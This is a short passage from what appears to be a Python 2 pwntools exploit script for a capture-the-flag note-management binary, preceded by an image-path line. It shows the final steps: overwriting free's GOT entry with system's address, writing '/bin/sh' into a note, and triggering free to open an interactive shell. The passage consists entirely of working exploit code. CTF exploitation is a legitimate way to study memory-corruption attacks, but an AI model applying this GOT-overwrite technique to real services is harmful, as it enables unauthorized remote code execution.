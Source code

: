 ```

# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)

# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')

# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
